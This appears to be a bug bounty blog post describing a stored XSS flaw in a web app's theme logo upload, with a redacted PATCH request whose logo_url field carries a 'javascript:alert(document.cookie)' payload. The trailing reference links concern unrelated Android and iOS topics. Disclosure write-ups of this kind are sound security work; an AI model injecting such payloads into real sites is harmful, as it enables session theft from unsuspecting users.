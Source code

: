 ```yaml
---
title: "Turning Self-XSS to Stored XSS"
layout: post
---
```


# Introduction
2020-05-13
<br />

While I was recently hunting on a promising web target, I discovered persistent XSS in the target. 
<br />

## Impact:

An attacker can use an XSS to perform many different things such as stealing a session cookie, logging keystrokes, or performing actions as the victim user to name a few. Because this is a stored XSS a user does not have to be tricked into clicking on a link or otherwise manipulated to trigger the payload they simply need to browse to the area or click application button that is affected.

## Vulnerability:

The vulnerability exists in the theme section which allows the user logo uploading. Logo upload progress is completed through 3rd party framework.

### Proof Of Concept

I changed logo_url parameter via sample XSS payload.

{% highlight html %}

PATCH /**/theme HTTP/1.1
Host: ***
User-Agent: ***
Accept: application/json, text/plain, */*
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8
X-Requested-With: XMLHttpRequest
X-CSRFToken: ***
Content-Length: 52
Origin: ***
Connection: close
Referer: ***
Cookie: ***


{"logo_url":"javascript:alert(document.cookie)"}
{% endhighlight %}



## Conclusion

With the change of parameter with a malicious one, XSS is triggered for every person who visited the web-site. 

[1]: https://github.com/b-mueller/frida-detection-demo
[2]: https://d3adend.org/blog/posts/android-anti-hooking-techniques-in-java/
[3]: https://github.com/leenjewel/openssl_for_ios_and_android

